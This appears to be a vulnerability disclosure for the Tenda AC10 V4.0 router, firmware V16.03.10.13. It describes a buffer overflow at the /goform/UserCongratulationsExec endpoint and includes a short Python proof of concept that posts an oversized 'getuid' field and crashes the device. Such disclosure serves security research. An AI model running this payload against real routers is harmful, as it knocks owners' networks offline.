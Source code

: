 # Tenda AC10V4.0 V16.03.10.13 has a buffer overflow vulnerability

# Vulnerable URL
http://192.168.85.160/goform/UserCongratulationsExec

# Vulnerability Description

Tenda AC10 is a dual-band three-gigabit wireless router suitable for fiber-optic homes within 1000 megabits, supporting gigabit ports, intelligent frequency selection, parental control and other functions. Shenzhen Jixiang Tenda Technology Co., Ltd. 
AC10 has a binary vulnerability that can be exploited by attackers to cause a denial of service.

# Firmware Information

https://www.tenda.com.cn/download/detail-3518.html
![image](https://github.com/user-attachments/assets/9986c299-ccf8-43c2-bc79-a586fa663a31)

# Payload：
```
import requests

url = "http://192.168.85.160/goform/UserCongratulationsExec"
data = {
    "getuid":b'A'*1000000000
}
res = requests.post(url=url,data=data)
print(res.content)
```

<img width="556" alt="image" src="https://github.com/user-attachments/assets/aa2d3ad6-cc37-4a9a-9179-d0a850c204e8" />

When running the exp.py script, the memory is filled up and the device crashes.

<img width="640" alt="image" src="https://github.com/user-attachments/assets/737f36bc-8bfd-4a66-be20-3f1c13382801" />

![image](https://github.com/user-attachments/assets/bc784f32-fbfe-4fd6-9807-7cc0a3e65fa3)

